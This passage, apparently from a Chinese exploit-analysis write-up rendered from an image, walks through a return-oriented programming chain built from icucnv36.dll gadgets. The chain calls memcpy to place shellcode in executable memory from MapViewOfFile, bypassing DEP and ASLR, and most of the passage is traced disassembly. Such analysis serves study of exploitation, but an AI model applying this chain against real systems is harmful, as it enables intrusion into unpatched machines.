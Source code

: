 最后调用函数 `memcpy` 将真正的 shellcode 复制到 `MapViewOfFile` 返回的地址处。这是一段可读可写可执行的内存，从而绕过 DEP。另外由于所使用的 gadgets 都来自 `icucnv36.dll` 模块，该模块不受 ASLR 的影响，所以同时也相当于绕过了 ASLR。
```
4A8063A5    59              pop ecx         ; esp = 0C0C0CC8, ecx = 4A8A0004
4A8063A6    C3              retn            ; esp = 0C0C0CCC, eip = 4A802196
```
```
4A802196    8901            mov dword ptr ds:[ecx],eax
4A802198    C3              retn            ; esp = 0C0C0CD0, eip = 4A8063A5
```
```
4A8063A5    59              pop ecx         ; esp = 0C0C0CD4, ecx = 4A801064
4A8063A6    C3              retn            ; esp = 0C0C0CD8, eip = 4A842DB2
```
```
4A842DB2    97              xchg eax,edi
4A842DB3    C3              retn            ; esp = 0C0C0CDC, eip = 4A802AB1
```
```
4A802AB1    5B              pop ebx         ; esp = 0C0C0CE0, ebx = 00000030
4A802AB2    C3              retn            ; esp = 0C0C0CE4, eip = 4A80A8A6
```
```
4A80A8A6    213C5C          and dword ptr ss:[esp+ebx*2],edi
...
4A80A8C8    32C0            xor al,al
4A80A8CA    C3              retn            ; esp = 0C0C0CE8, eip = 4A801F90
```
```
4A801F90    58              pop eax         ; esp = 0C0C0CEC, eax = 4A8A0004
4A801F91    C3              retn            ; esp = 0C0C0CF0, eip = 4A80A7D8
```
```
4A80A7D8    8B00            mov eax,dword ptr ds:[eax]
4A80A7DA    C3              retn            ; esp = 0C0C0CF4, eip = 4A8063A5
```
```
4A8063A5    59              pop ecx         ; esp = 0C0C0CF8, ecx = 4A801064
4A8063A6    C3              retn            ; esp = 0C0C0CFC, eip = 4A842DB2
```
```
4A842DB2    97              xchg eax,edi
4A842DB3    C3              retn            ; esp = 0C0C0D00, eip = 4A802AB1
```
```
4A802AB1    5B              pop ebx         ; esp = 0C0C0D04, ebx = 00000020
4A802AB2    C3              retn            ; esp = 0C0C0D08, eip = 4A80A8A6
```
```
4A80A8A6    213C5C          and dword ptr ss:[esp+ebx*2],edi
...
4A80A8C8    32C0            xor al,al
4A80A8CA    C3              retn            ; esp = 0C0C0D0C, eip = 4A8063A5
```
```
4A8063A5    59              pop ecx         ; esp = 0C0C0D10, ecx = 4A801064
4A8063A6    C3              retn            ; esp = 0C0C0D14, eip = 4A80AEDC
```
```
4A80AEDC    8D5424 0C       lea edx,dword ptr ss:[esp+0xC]  ; edx = 0C0C0D20
4A80AEE0    52              push edx
4A80AEE1    50              push eax
4A80AEE2    FF7424 0C       push dword ptr ss:[esp+0xC]
4A80AEE6    FF35 3C098A4A   push dword ptr ds:[0x4A8A093C]
4A80AEEC    FFD1            call ecx        ; esp = 0C0C0D00, eip = 4A801064
4A80AEEE    83C4 10         add esp,0x10
4A80AEF1    C3              retn
```
```
```